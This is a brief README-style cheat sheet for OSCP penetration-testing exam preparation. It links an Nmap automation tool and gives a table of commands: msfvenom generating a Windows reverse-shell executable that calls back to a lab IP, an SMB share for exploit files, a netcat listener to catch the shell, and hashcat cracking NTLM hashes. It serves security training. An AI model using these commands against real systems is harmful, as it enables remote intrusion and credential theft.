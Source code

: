 # Offensive Security Certified Professional
## OSCP Tools and Resources for Your Journey


##### Nmap Automator. Save time on port/vuln scans:
https://github.com/21y4d/nmapAutomator




Category | Command Examples
------------ | -------------
MSFVENOM | msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.221 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe
SMB | python3 smbserver.py lab "~/OSCP/EXPLOITS/MS17-010/CLISHARE"
NETCAT | nc -nvlp 443   *(Creates a local listener)*
CRACKING | hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst 

